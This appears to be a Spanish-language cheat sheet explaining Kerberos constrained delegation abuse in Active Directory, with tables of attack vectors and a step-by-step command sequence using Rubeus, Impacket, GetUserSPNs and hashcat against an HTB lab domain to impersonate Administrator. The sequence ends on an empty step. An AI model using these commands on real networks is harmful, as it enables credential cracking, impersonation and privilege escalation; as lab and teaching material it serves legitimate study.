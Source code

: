 # 🛑 Ataques de **Constrained Delegation (Delegación Restringida) en Active Directory**

---

## 📝 ¿Qué es Constrained Delegation y por qué es peligroso?

| Concepto      | Descripción                                                                                                       |
|---------------|------------------------------------------------------------------------------------------------------------------|
| **Definición**| Mecanismo de delegación Kerberos que permite a un servicio obtener tickets de servicio (TGS) para usuarios específicos, pero solo hacia servicios predefinidos en su lista de SPNs autorizados (msDS-AllowedToDelegateTo). |
| **Finalidad** | Diseñado como versión más segura que la delegación no restringida, limitando a qué servicios puede acceder un servidor delegado. Su abuso permite a atacantes suplantar usuarios ante servicios específicos y potencialmente escalar privilegios. |

---

## 🛠️ ¿Cómo funciona y cómo se explota Constrained Delegation? (TTPs y ejemplos)

| Vector/Nombre              | Descripción breve                                                                                   |
|----------------------------|----------------------------------------------------------------------------------------------------|
| **Compromiso de servicio con delegación** | El atacante obtiene control de un servicio configurado con delegación restringida y abusa de S4U2Self/S4U2Proxy. |
| **S4U2Self para cualquier usuario** | Solicita ticket de servicio en nombre de cualquier usuario (incluso sin su TGT) hacia sí mismo. |
| **S4U2Proxy hacia servicios objetivo** | Usa el ticket obtenido en S4U2Self para solicitar acceso a servicios en la lista de delegación. |
| **Alternative Service Name** | Explota que Kerberos permite cambiar el servicio (HTTP→CIFS) manteniendo el host para escalada. |
| **Abuse de cuentas de servicio** | Compromete cuentas con SeEnableDelegationPrivilege o con SPN configurados para delegación. |
| **Cross-domain delegation** | Abusa de trusts entre dominios para delegación hacia servicios en dominios externos. |

---

## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Enumerar servicios con delegación restringida
findDelegation.py -target-domain soporte.htb -hashes :aad3b435b51404eeaad3b435b51404ee

# 2. Con Rubeus - buscar delegación restringida
.\Rubeus.exe s4u /user:srv-web$ /rc4:aad3b435b51404eeaad3b435b51404ee /domain:soporte.htb /dc:dc.soporte.htb

# 3. Comprometer cuenta de servicio con delegación (ejemplo: Kerberoasting)
GetUserSPNs.py soporte.htb/usuario:Password123 -request -dc-ip 10.10.11.174

# 4. Crackear hash obtenido
hashcat -m 13100 ticket.hash rockyou.txt

# 5. S4U2Self - Obtener ticket para cualquier usuario hacia el servicio comprometido
.\Rubeus.exe s4u /user:srv-web$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /msdsspn:HTTP/webapp.soporte.htb /domain:soporte.htb /dc:dc.soporte.htb

# 6. S4U2Proxy - Usar el ticket para acceder a servicios autorizados
.\Rubeus.exe s4u /user:srv-web$ /rc4:aad3b435b51404eeaad3b435b51404ee /impersonateuser:Administrator /msdsspn:HTTP/webapp.soporte.htb /altservice:CIFS /domain:soporte.htb /dc:dc.soporte.htb /ptt

# 7. Alternativamente, usando getST.py de Impacket
getST.py -spn HTTP/webapp.soporte.htb -impersonate Administrator soporte.htb/srv-web$ -hashes :aad3b435b51404eeaad3b435b51404ee

# 8. Cambiar servicio en el ticket (HTTP → CIFS para acceso a archivos)
```